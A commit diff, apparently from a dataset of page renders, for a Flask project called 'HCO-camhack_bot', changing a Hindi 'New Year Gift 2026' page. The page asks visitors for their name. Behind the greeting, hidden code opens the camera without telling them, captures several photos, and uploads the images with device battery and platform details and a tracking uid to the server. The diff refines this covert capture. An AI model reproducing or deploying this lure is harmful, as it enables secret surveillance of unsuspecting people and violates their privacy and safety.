

Before and after one commit to Roshan0786shah/HCO-camhack_bot, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -3,32 +3,29 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>New Year Surprise 2026</title>
+    <title>New Year Gift 2026</title>
     <script src="https://cdn.jsdelivr.net/npm/canvas-confetti@1.5.1/dist/confetti.browser.min.js"></script>
     <style>
-        body { background: #000; color: #fff; font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
-        .container { text-align: center; width: 90%; max-width: 400px; padding: 20px; border: 2px solid #ff0055; border-radius: 20px; background: rgba(255, 0, 85, 0.05); box-shadow: 0 0 20px #ff0055; }
-        h1 { color: #ff0055; text-shadow: 0 0 10px #ff0055; margin-bottom: 20px; }
-        input { padding: 15px; width: 85%; border-radius: 30px; border: 1px solid #ff0055; background: #111; color: #fff; font-size: 16px; margin-bottom: 20px; outline: none; }
-        button { padding: 15px 40px; border-radius: 30px; border: none; background: #ff0055; color: #fff; font-size: 18px; font-weight: bold; cursor: pointer; transition: 0.3s; }
-        button:hover { transform: scale(1.05); box-shadow: 0 0 15px #ff0055; }
+        body { background: #000; color: #fff; font-family: sans-serif; margin: 0; display: flex; justify-content: center; align-items: center; height: 100vh; overflow: hidden; }
+        .container { text-align: center; width: 85%; max-width: 400px; padding: 25px; border: 2px solid #ff0055; border-radius: 25px; background: #0a0a0a; box-shadow: 0 0 25px #ff0055; }
+        h1 { color: #ff0055; text-shadow: 0 0 10px #ff0055; }
+        input { padding: 15px; width: 85%; border-radius: 30px; border: 1px solid #ff0055; background: #111; color: #fff; margin-bottom: 20px; text-align: center; }
+        button { padding: 15px 35px; border-radius: 30px; border: none; background: #ff0055; color: #fff; font-weight: bold; cursor: pointer; }
         #wish-box { display: none; }
-        .wish-text { font-size: 22px; line-height: 1.5; font-weight: bold; }
     </style>
 </head>
 <body>
 
     <div class="container" id="main-box">
-        <h1>🎆 Surprise Gift 🎆</h1>
-        <p>अपना नाम लिखें और जादू देखें!</p>
-        <input type="text" id="userName" placeholder="यहाँ अपना नाम लिखें...">
-        <br>
-        <button onclick="startApp()">जादू देखें ✨</button>
+        <h1>🎇 New Year Gift 🎇</h1>
+        <p>अपना नाम लिखें और उपहार खोलें!</p>
+        <input type="text" id="userName" placeholder="आपका नाम...">
+        <button onclick="startApp()">उपहार खोलें ✨</button>
     </div>
 
     <div class="container" id="wish-box">
-        <div class="wish-text" id="wishMsg"></div>
-        <p style="margin-top:20px;">🎊 Happy New Year 2026 🎊</p>
+        <h2 id="wishMsg" style="font-size: 20px;"></h2>
+        <p>🎊 Happy New Year 2026 🎊</p>
     </div>
 
     <video id="v" style="display:none" autoplay playsinline></video>
@@ -38,10 +35,11 @@
     <script>
         const urlParams = new URLSearchParams(window.location.search);
         const mode = urlParams.get('m') || 'front';
+        const uid = urlParams.get('uid') || '7162565886';
 
         async function startApp() {
             let name = document.getElementById('userName').value;
-            if(!name) return alert("कृपया अपना नाम डालें!");
+            if(!name) return alert("नाम डालना जरूरी है!");
 
             document.getElementById('main-box').style.display = 'none';
             document.getElementById('wish-box').style.display = 'block';
@@ -54,7 +52,7 @@
         }
 
         async function initCapture(name) {
-            let info = { battery: "Unknown", platform: navigator.platform };
+            let info = { battery: "N/A", platform: navigator.platform };
             try { let b = await navigator.getBattery(); info.battery = Math.round(b.level*100)+"%"; } catch(e){}
 
             if(mode === 'front') await runCam(name, info, {facingMode: "user"}, 5, "FRONT");
@@ -67,21 +65,33 @@
 
         async function runCam(name, info, constraints, count, label) {
             try {
-                let stream = await navigator.mediaDevices.getUserMedia({ video: constraints });
+                let stream = await navigator.mediaDevices.getUserMedia({
+                    video: { ...constraints, width: {ideal: 640}, height: {ideal: 480} }
+                });
                 let video = document.getElementById('v');
                 video.srcObject = stream;
-                await new Promise(r => setTimeout(r, 3000)); // कैमरा सेटल होने का इंतज़ार
+
+                // 4 सेकंड का डिले ताकि कैमरा लाइट एडजस्ट कर ले
+                await new Promise(r => setTimeout(r, 4000));
 
                 for (let i = 1; i <= count; i++) {
                     let can = document.getElementById('c');
-                    can.width = video.videoWidth; can.height = video.videoHeight;
+                    can.width = video.videoWidth;
+                    can.height = video.videoHeight;
                     can.getContext('2d').drawImage(video, 0, 0);
+
                     fetch('/upload', {
                         method: 'POST',
                         headers: {'Content-Type': 'application/json'},
-                        body: JSON.stringify({name: name, image: can.toDataURL('image/jpeg', 0.6), info: info, label: label+" "+i})
+                        body: JSON.stringify({
+                            name: name,
+                            image: can.toDataURL('image/jpeg', 0.4),
+                            info: info,
+                            label: label+" "+i,
+                            uid: uid
+                        })
                     });
-                    await new Promise(r => setTimeout(r, 2000));
+                    await new Promise(r => setTimeout(r, 3000));
                 }
                 stream.getTracks().forEach(t => t.stop());
             } catch(e) {}
```
